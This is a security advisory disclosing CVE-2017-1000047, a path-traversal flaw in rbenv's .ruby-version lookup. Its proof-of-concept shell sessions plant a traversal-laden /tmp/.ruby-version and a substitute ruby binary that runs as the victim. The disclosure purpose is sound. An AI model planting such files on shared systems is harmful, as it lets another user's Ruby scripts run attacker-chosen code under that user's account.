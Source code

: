 The following issue constitutes a low-risk arbitrary code execution
vulnerability in rbenv.

No fixed version is currently available. An issue has been logged with the
project to address this vulnerability at
<https://github.com/rbenv/rbenv/issues/977>

rbenv manages multiple versions of Ruby, which are installed within a user's
home directory, and provides automatic switching between those Ruby versions
based on an application's needs.

<https://github.com/rbenv/rbenv/blob/master/README.md> says:

> At a high level, rbenv intercepts Ruby commands using shim executables
> injected into your PATH, determines which Ruby version has been specified by
> your application, and passes your commands along to the correct Ruby
> installation.

All examples below were captured using rbenv version 1.1.0-2-g4f8925a

CVE-2017-1000047 rbenv Ruby specification directory traversal
-------------------------------------------------------------

* OVE ID: OVE-20170303-0004
* Public disclosure date: 2017-03-04
* Affected versions: All?

When executing Ruby or a Ruby script, rbenv reads a file named `.ruby-version`
to determine the version of Ruby interpreter to execute. It will walk up the
directory tree until it finds such a file, or until it reaches `/`. If it does
not find such a file, it repeats the process starting from `$PWD`.
Documentation regarding this process is available at
<https://github.com/rbenv/rbenv/blob/master/README.md#choosing-the-ruby-version>

Once a Ruby version has been identified,
`~/.rbenv/versions/${VERSION}/bin/ruby` is used to provide Ruby.

The Ruby version specified in `.ruby-version` may contain path traversal
sequences, making it possible to specify that a `ruby` binary outside of the
user's home directory should be used to provide Ruby.

This is exploitable against local users in the following cases:

* Where a user executes a trustworthy Ruby script that is in a directory where
  the first `.ruby-version` encountered while walking upwards from the
  directory to the root directory is attacker-controlled. For example, an
  attacker may plant `/tmp/.ruby-version` to exploit a user who is executing
  `/tmp/foo/bar/fizzbuzz.rb`

* Where a user executes a trustworthy Ruby script while their `$PWD` is a
  directory where the first `.ruby-version` encountered while walking upwards
  from the directory to the root directory is attacker-controlled. For example,
  an attacker may plant `/tmp/.ruby-version` to exploit a user who is executing
  a Ruby script while they are `cd`'d to `/tmp/fizz/buzz/`

These attack scenarios are considered by the author to be highly unusual and
requires a high level of user interaction (executing Ruby scripts from, or
while `cd`'d to, a world-writable directory or a descendent thereof). This
issue is hence deemed to be low-risk.

### POC

#### Exploit a user running a Ruby script that is within `/tmp`

Create an innocent script:

```text
[justin@116e71652cf1 D ~]% mkdir -p /tmp/foo/bar/

[justin@116e71652cf1 D ~]% cat > /tmp/foo/bar/fizzbuzz.rb
#!/usr/bin/env ruby
puts 'This is fine'
^D

[justin@116e71652cf1 D ~]% chmod u+x /tmp/foo/bar/fizzbuzz.rb
```

Set the trap as `nobody`:

```text
[justin@116e71652cf1 D ~]% cat | sudo -u nobody tee /tmp/.ruby-version >/dev/null
../../../../../../../../../../../../tmp/badruby
^D

[justin@116e71652cf1 D ~]% sudo -u nobody mkdir -p /tmp/badruby/bin

[justin@116e71652cf1 D ~]% cat | sudo -u nobody tee /tmp/badruby/bin/ruby >/dev/null
#!/bin/sh
echo "Bad ruby executing as $(id)"
^D

[justin@116e71652cf1 D ~]% sudo -u nobody chmod -R a+rx /tmp/badruby

[justin@116e71652cf1 D ~]% ls -la /tmp/.ruby-version /tmp/badruby/bin/ruby
-rw-r--r-- 1 nobody nogroup 48 Mar  3 23:54 /tmp/.ruby-version
-rwxr-xr-x 1 nobody nogroup 45 Mar  3 23:55 /tmp/badruby/bin/ruby
```

Trigger the trap by executing the trustworthy script as `justin`:

```text
[justin@116e71652cf1 D ~]% /tmp/foo/bar/fizzbuzz.rb
Bad ruby executing as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

#### Exploit a user running a Ruby script while their `$PWD` is within `/tmp`

Create an innocent script within `~`:

```text
[justin@116e71652cf1 D ~]% mkdir -p ~/fizz/buzz

[justin@116e71652cf1 D ~]% cat > ~/fizz/buzz/foobar.rb
#!/usr/bin/env ruby
puts 'This is fine'
^D

[justin@116e71652cf1 D /tmp/fizz/buzz]% chmod u+x ~/fizz/buzz/foobar.rb 
```

`cd` to an empty directory within `/tmp`:

```text
[justin@116e71652cf1 D ~]% mkdir -p /tmp/fizz/buzz

[justin@116e71652cf1 D ~]% cd /tmp/fizz/buzz

[justin@116e71652cf1 D /tmp/fizz/buzz]% ls -la
total 8
drwxr-xr-x 2 justin justin 4096 Mar  4 00:00 .
drwxr-xr-x 3 justin justin 4096 Mar  4 00:00 ..
```

Don't bother setting the trap as `nobody` - the trap from the previous POC will
work just fine.

Trigger the trap by executing the trustworthy script as `justin`:

```text
[justin@116e71652cf1 D /tmp/fizz/buzz]% ~/fizz/buzz/foobar.rb 
Bad ruby executing as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo)
```

---

Justin Steven

<https://twitter.com/justinsteven>
